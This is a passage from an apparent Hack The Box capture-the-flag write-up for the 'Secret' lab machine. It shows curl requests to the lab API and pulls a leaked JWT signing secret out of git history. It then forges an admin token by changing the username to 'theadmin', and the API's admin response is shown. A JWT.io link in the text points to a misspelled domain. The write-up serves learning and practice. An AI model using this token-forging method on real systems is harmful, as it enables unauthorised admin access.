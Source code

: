 Login to verify the account:
```bash
┌──(void㉿void)-[/htb/secret]
└─$ curl -X GET http://10.10.11.120:3000/api/priv -H "Content-Type: application/json" -H "Auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MThlNThiMWE2OTU4OTA0NTc2OThkYTEiLCJuYW1lIjoicGxheWVyMyIsImVtYWlsIjoicGxheWVyM0BkYXNpdGgud29ya3MiLCJpYXQiOjE2MzY3MTg4NzN9.7GR5f0mFU9yXkS0u_KNXYhFYZ3mMoogphUYPjRiVm3w"
{"role":{"role":"you are normal user","desc":"player3"}}
```

------

<br>

### Step 2

Looking in `.git` history we find a token removed "because of security reasons". 

```bash
┌──(void㉿void)-[/htb/secret/files/local-web/.git]
└─$ git show 67d8da7 
commit 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:30:17 2021 +0530

    removed .env for security reasons

diff --git a/.env b/.env
index fb6f587..31db370 100644
--- a/.env
+++ b/.env
@@ -1,2 +1,2 @@
 DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret
```

Go to [JWT.io](https://jtw.io) and paste our created token. In the bottom right corner paste the found token signature (extracted from git) and we'll see `Signature Verified`.

![[Pasted image 20211112141140.png]]

With a verified signature, we can change our username from `player3` to `theadmin`. Take the new auth token and verify that you're now an admin.

```json
┌──(void㉿void)-[/htb/secret/files/local-web/.git]
└─$ curl -X GET http://10.10.11.120:3000/api/priv -H "Content-Type: application/json" -H "Auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MThlNThiMWE2OTU4OTA0NTc2OThkYTEiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InBsYXllcjNAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjM2NzE4ODczfQ.mHuzptCZxArx8xTaM4Hu0ijriDdlY5BA5dPURWjA6Rk"
{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}}
```
